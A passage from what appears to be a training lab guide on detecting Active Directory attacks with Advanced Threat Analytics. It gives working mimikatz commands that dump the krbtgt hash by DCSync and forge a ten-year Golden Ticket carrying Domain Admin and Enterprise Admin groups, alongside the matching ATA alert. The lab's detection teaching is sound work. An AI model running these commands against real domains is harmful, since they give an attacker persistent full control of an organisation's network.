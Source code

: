 Now you will establish domain dominance by compromising KRBTGT credentials. This allows you to issue Kerberos tickets which lifetime can span up to 10 years.

1.   On LON-CL1, while signed on as **ADATUM\\Ida**, from the same Command Prompt window that you invoked via mimikatz in the previous task, run the following:

```
C:\UTIL\x64\mimikatz.exe "lsadump::dcsync /domain:adatum.com /user:krbtgt" "exit" > C:\UTIL\x64\task6a.txt
```

2.   From the **Administrator: Command Prompt** window, run the following:

```
notepad C:\UTIL\x64\task6a.txt
```

3.   Review the content of the file in Notepad and note the entries corresponding to the **ADATUM\\krbtgt** account. While they do not include the clear text password, they do contain the NTLM hash. Copy the value of the hash into Clipboard. 
4.   Switch to the Internet Explorer window displaying the **Health** page of the ATA Center console. You should see another alert labeled **Malicious replication of directory services** representing the command you ran from the Command Prompt on LON-CL1.
5.   Click the **Malicious replication of directory services** label. This will display details of the event. Examine the displayed information. 
6.   To generate Golden Ticket, you need to identify the SID of the adatum.com domain. You can accomplish this by using the **whomi** command with the **//user** switch. In the same Command Prompt window which you invoked via mimikatz in the previous task, run the following:

```
whoami /user
```

7.   In the **SID** column, note the SID value excluding the last dash (-) and the trailing four digits. This represents the SID of the adatum.com domain. Copy this value into Clipboard.
8.   In the same Command Prompt window, run the following, while making sure to replace the `<hash_value>` placeholder with the value of the NTLM hash availble from Notepad and the `<domain_sid>` placeholder with the value of the domain SID you copied into Clipboard:

```
C:\UTIL\x64\mimikatz.exe "privilege::debug" "kerberos::golden /domain:adatum.com /sid:<domain_sid> /krbtgt:<hash_value> /user:Administrator /id:500
/groups:512,513,518,519,520 /ticket:admin.kirbi" "exit"

```

  > **Note:** For the list of well-known SIDs, refer to https://support.microsoft.com/en-us/help/243330/well-known-security-identifiers-in-windows-operating-systems 

9.   Verify that the ticket has been generated. The ticket includes group membership in Domain Admins (512), Domain Users (513), Schema Admins (518), Enterprise Admins (519) and Group Policy Creator Owners (520). Note that the lifetime of the ticket is 10 years.
10.   To test the usage of the Golden Ticket, start **Command Prompt** as Administrator.
11.   From the newly opened **Administrator: Command Prompt** window, run the following to verify that you (operating in the security context of **ADATUM\\Ida** account) currently do not have administrative access to the domain controller:

```
dir \\lon-dc1.adatum.com\c$
```
